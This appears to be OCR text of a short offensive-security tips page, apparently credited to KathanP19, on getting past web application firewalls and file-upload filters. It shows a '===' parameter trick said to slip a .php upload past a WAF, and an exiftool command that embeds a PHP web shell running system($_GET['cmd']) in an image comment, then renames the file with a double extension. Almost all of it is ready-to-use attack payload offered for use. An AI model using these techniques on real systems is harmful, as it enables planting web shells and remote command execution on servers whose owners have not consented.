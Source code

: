 ```markdown
WAF bypass Tips by 
@0xInfection
Case: File Upload (.php blocked)

/?file=xx.php    <- Blocked
/?file===xx.php  <- Bypassed

The file got uploaded successfully.
```

[https://pbs.twimg.com/media/EpkPLYXVgAMLhZa?format=jpg&name=medium](https://pbs.twimg.com/media/EpkPLYXVgAMLhZa?format=jpg&name=medium)

```markdown
Bypass File Upload Filtering

In image :

exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' shell.jpg 

mv shell.jpg  shell.php.jpg
```

[https://pbs.twimg.com/media/Eq9dOoaXUAAEE8n?format=jpg&name=900x900](https://pbs.twimg.com/media/Eq9dOoaXUAAEE8n?format=jpg&name=900x900)

## Author:
[KathanP19](https://twitter.com/KathanP19)
